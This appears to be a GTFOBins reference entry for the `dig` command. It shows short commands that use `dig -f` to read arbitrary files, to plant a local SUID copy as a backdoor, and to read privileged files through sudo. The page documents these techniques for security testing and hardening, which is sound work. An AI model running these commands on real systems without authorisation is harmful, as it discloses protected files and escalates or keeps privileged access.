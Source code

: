 # GTFOBin: dig

Each input line is treated as a lookup query for the `dig` command and the output is corrupted with the result or errors of the operation, so this may not be suitable for binary files. Grepping for `DiG` might help to filter out unwanted content.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
dig -f $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which dig) .

LFILE=file_to_read
./dig -f $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo dig -f $LFILE
```